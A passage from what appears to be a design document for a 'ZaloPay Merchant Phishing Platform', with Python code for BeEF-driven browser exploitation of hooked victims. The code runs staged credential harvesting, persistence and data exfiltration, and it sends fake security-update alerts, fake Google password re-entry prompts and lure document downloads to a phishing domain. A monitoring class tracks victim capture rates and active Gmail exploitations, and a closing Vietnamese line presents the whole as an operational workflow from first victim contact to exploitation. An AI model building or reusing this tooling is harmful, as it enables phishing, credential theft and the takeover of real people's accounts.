            if contact_analysis.get('intelligence_value', 0) > 0.8:
                intelligence_summary['network_intelligence']['high_value_relationships'] += 1
        
        # Generate actionable intelligence
        actionable_intelligence = await self.generate_actionable_intelligence(
            extraction_results, intelligence_summary
        )
        intelligence_summary['actionable_intelligence'] = actionable_intelligence
        
        # Calculate overall intelligence score
        intelligence_summary['overall_intelligence_score'] = await self.calculate_overall_intelligence_score(
            intelligence_summary
        )
        
        return intelligence_summary
```

## Phase 6: BeEF Integration & Browser Exploitation

### 6.1 Advanced Browser Exploitation Workflow
```python
class AdvancedBeEFExploitation:
    def __init__(self):
        self.beef_client = BeEFAPIClient()
        self.exploitation_modules = {
            'reconnaissance': ReconnaissanceModule(),
            'credential_harvesting': CredentialHarvestingModule(),
            'social_engineering': SocialEngineeringModule(),
            'persistence': PersistenceModule(),
            'data_exfiltration': DataExfiltrationModule()
        }
    
    async def execute_comprehensive_exploitation(self, hook_id, victim_profile):
        """Execute comprehensive browser exploitation campaign"""
        
        exploitation_campaign = {
            'campaign_id': self.generate_campaign_id(),
            'hook_id': hook_id,
            'victim_profile': victim_profile,
            'start_time': datetime.utcnow(),
            'phases': [],
            'results': {}
        }
        
        # Phase 1: Reconnaissance
        recon_results = await self.execute_reconnaissance_phase(hook_id)
        exploitation_campaign['phases'].append({
            'phase': 'reconnaissance',
            'results': recon_results,
            'duration': recon_results.get('execution_time', 0)
        })
        
        # Phase 2: Credential Harvesting
        if recon_results.get('credential_opportunities', False):
            credential_results = await self.execute_credential_harvesting(hook_id)
            exploitation_campaign['phases'].append({
                'phase': 'credential_harvesting',
                'results': credential_results,
                'duration': credential_results.get('execution_time', 0)
            })
        
        # Phase 3: Social Engineering
        social_eng_results = await self.execute_social_engineering_campaign(
            hook_id, victim_profile
        )
        exploitation_campaign['phases'].append({
            'phase': 'social_engineering',
            'results': social_eng_results,
            'duration': social_eng_results.get('execution_time', 0)
        })
        
        # Phase 4: Persistence Establishment
        persistence_results = await self.establish_persistence(hook_id)
        exploitation_campaign['phases'].append({
            'phase': 'persistence',
            'results': persistence_results,
            'duration': persistence_results.get('execution_time', 0)
        })
        
        # Phase 5: Data Exfiltration
        exfiltration_results = await self.execute_data_exfiltration(hook_id)
        exploitation_campaign['phases'].append({
            'phase': 'data_exfiltration',
            'results': exfiltration_results,
            'duration': exfiltration_results.get('execution_time', 0)
        })
        
        exploitation_campaign['end_time'] = datetime.utcnow()
        exploitation_campaign['total_duration'] = (
            exploitation_campaign['end_time'] - exploitation_campaign['start_time']
        ).total_seconds()
        
        # Store exploitation results
        await self.store_exploitation_campaign(exploitation_campaign)
        
        return exploitation_campaign
    
    async def execute_social_engineering_campaign(self, hook_id, victim_profile):
        """Advanced social engineering exploitation"""
        
        # Determine optimal social engineering approach
        approach = await self.determine_social_engineering_approach(victim_profile)
        
        social_engineering_sequence = []
        
        if approach.includes('security_update'):
            # Fake security update notification
            result = await self.beef_client.execute_command(hook_id, 'fake_notification', {
                'type': 'security_update',
                'title': 'Security Update Required',
                'message': 'Your browser has detected a security vulnerability. Click Update Now to install the latest security patch.',
                'button_text': 'Update Now',
                'callback_url': f'{self.phishing_domain}/security-update'
            })
            social_engineering_sequence.append(result)
        
        if approach.includes('credential_verification'):
            # Credential verification request
            result = await self.beef_client.execute_command(hook_id, 'credential_prompt', {
                'service': 'Google',
                'message': 'Your session has expired. Please re-enter your password to continue.',
                'callback_url': f'{self.phishing_domain}/verify-credentials'
            })
            social_engineering_sequence.append(result)
        
        if approach.includes('file_download'):
            # Important document download
            result = await self.beef_client.execute_command(hook_id, 'file_download_prompt', {
                'filename': 'Important_Business_Document.pdf',
                'description': 'This document contains important information regarding your account.',
                'download_url': f'{self.phishing_domain}/download/document.pdf'
            })
            social_engineering_sequence.append(result)
        
        return {
            'approach': approach,
            'sequence': social_engineering_sequence,
            'success_rate': self.calculate_success_rate(social_engineering_sequence),
            'execution_time': sum(result.get('execution_time', 0) for result in social_engineering_sequence)
        }
```

## Performance Metrics & Monitoring

### Real-Time System Monitoring
```python
class SystemPerformanceMonitor:
    def __init__(self):
        self.metrics_collector = MetricsCollector()
        self.alert_manager = AlertManager()
        self.dashboard_updater = DashboardUpdater()
    
    async def monitor_system_performance(self):
        """Continuous system performance monitoring"""
        
        while True:
            try:
                # Collect system metrics
                system_metrics = await self.collect_system_metrics()
                
                # Analyze performance
                performance_analysis = await self.analyze_performance(system_metrics)
                
                # Check for alerts
                alerts = await self.check_performance_alerts(performance_analysis)
                
                # Update dashboard
                await self.dashboard_updater.update_performance_metrics(
                    system_metrics, performance_analysis
                )
                
                # Send alerts if necessary
                if alerts:
                    await self.alert_manager.send_alerts(alerts)
                
                await asyncio.sleep(30)  # Monitor every 30 seconds
                
            except Exception as e:
                self.logger.error(f"Performance monitoring error: {e}")
                await asyncio.sleep(60)  # Backoff on error
    
    async def collect_system_metrics(self):
        """Collect comprehensive system metrics"""
        
        return {
            'timestamp': datetime.utcnow(),
            'victim_metrics': {
                'total_active_sessions': await self.count_active_sessions(),
                'capture_rate_per_hour': await self.calculate_hourly_capture_rate(),
                'validation_queue_size': await self.get_validation_queue_size(),
                'success_rate_24h': await self.calculate_24h_success_rate()
            },
            'admin_metrics': {
                'active_admin_sessions': await self.count_active_admin_sessions(),
                'gmail_exploitations_active': await self.count_active_gmail_sessions(),
                'beef_hooks_active': await self.count_active_beef_hooks()
            },
            'system_metrics': {
                'cpu_usage': await self.get_cpu_usage(),
                'memory_usage': await self.get_memory_usage(),
                'disk_usage': await self.get_disk_usage(),
                'network_throughput': await self.get_network_metrics(),
                'database_performance': await self.get_database_metrics()
            },
            'proxy_metrics': {
                'total_proxies': await self.count_total_proxies(),
                'healthy_proxies': await self.count_healthy_proxies(),
                'proxy_success_rate': await self.calculate_proxy_success_rate(),
                'average_response_time': await self.calculate_proxy_response_time()
            }
        }
```

Tài liệu này cung cấp workflow hoàn chỉnh và chi tiết của ZaloPay Merchant Phishing Platform, từ initial victim contact đến comprehensive intelligence exploitation. Mỗi phase được thiết kế để tối ưu hiệu suất, maintain operational security, và provide comprehensive administrative control.